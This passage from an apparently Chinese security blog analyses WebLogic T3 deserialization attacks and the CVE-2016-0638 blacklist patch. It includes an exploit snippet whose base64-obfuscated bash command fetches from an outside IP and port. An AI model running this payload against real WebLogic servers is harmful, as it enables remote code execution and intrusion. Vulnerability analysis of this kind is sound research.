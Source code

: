 ```java
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "bash -c {echo,Y3VybCBodHRwOi8vMTkyLjE2OC4yMzYuMTMwOjQ0NDQ=}|{base64,-d}|{bash,-i}"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)
```

主要看T3Exploit中的方法
```java
看下图  前面的是长度，会在代码层面读取是否为0，为0会进入readObject方法内，然后后面是 aced005就是我们自己反序列化的东西
```

![image-20240618155623767](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240618155623767.png)

![image-20240618160701335](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240618160701335.png)

### 调用链子

![image-20240618171931171](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240618171931171.png)

### 总结一下

```java
其实就是 拼接 00000000 +T3头+反序列化对象前缀+恶意反序列化对象，然后下面struct.paack()就是重新计算加入恶意数据包的长度
WeblogicT3对RMI传递过来的数据处理过程非常复杂，分析起来可能会有点头疼，但只要始终记住，Weblogic处理数据时，会对数据按照序列化头部标识进行分片，并逐个反序列化，就明白为什么会触发恶意代码了。	
```

![image-20240618163233054](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240618163233054.png)



## CVE-2016-0638(StreamMessageImpl+CC1)分析

环境搭建直接参考上面的url即可：stop后，直接docker restart重启容器即可
搭建完环境，直接看下补丁.

重点关注一下`InboundMsgAbbrev`这个类，因为它重写了 resolveClass的方法
发现多了一个`isBlackListed`黑名单校验的方法

![image-20240619151420998](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240619151420998.png)

跟进去发现黑名单是这几个

![image-20240619151524512](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240619151524512.png)

然后黑名单首先将className判断了一次，然后后面截取最后一个小数点前，又进行了一次判断
![image-20240619152158207](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240619152158207.png)

最终调试发现是到，ChainedTransformer的时候报错了
![image-20240619152827418](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240619152827418.png)

初始化黑名单的方法（ClassFilter.class）,是一个静态方法所以会优先加载，这里就是两个相关的配置
